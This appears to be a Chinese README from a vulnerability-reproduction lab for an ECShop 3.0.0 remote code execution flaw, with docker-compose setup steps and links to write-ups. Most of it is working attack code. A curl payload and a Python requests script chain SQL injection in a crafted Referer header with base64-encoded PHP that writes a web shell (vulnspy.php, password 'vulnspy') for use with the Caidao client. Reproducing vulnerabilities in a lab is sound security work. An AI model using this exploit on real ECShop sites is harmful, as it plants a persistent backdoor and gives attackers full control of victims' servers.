


## 环境构建
```
docker-compose build 
docker-compose up -d
```

## 漏洞介绍
3.0.0 Payload

```
curl http://127.0.0.1/user.php -d "action=login&vulnspy=eval/**/(base64_decode(ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOycpOw));exit;" \-H 'Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}45ea207d7a2b68c49582d2d22adf953a'
```



可以直接添加菜刀

地址:http://127.0.0.1/vulnspy.php 密码: vulnspy



python攻击脚本

```
import requests

burp0_url = "http://127.0.0.1:80/user.php"
burp0_headers = {"User-Agent": "curl/7.54.0", "Accept": "*/*", "Referer": "45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:\"num\";s:207:\"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--\";s:2:\"id\";s:9:\"' union/*\";s:4:\"name\";s:3:\"ads\";}45ea207d7a2b68c49582d2d22adf953a", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close"}
burp0_data={"action": "login", "vulnspy": "eval/**/(base64_decode(ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOycpOw));exit;"}
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)


```


## 漏洞连接
[链接一](http://www.freebuf.com/vuls/182899.html)

[payload](http://www.vulnspy.com/cn-ecshop-3.x.x-rce-exploit/ecshop_%3C=_2.x/3.6.x/3.0.x_%E7%89%88%E6%9C%AC%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)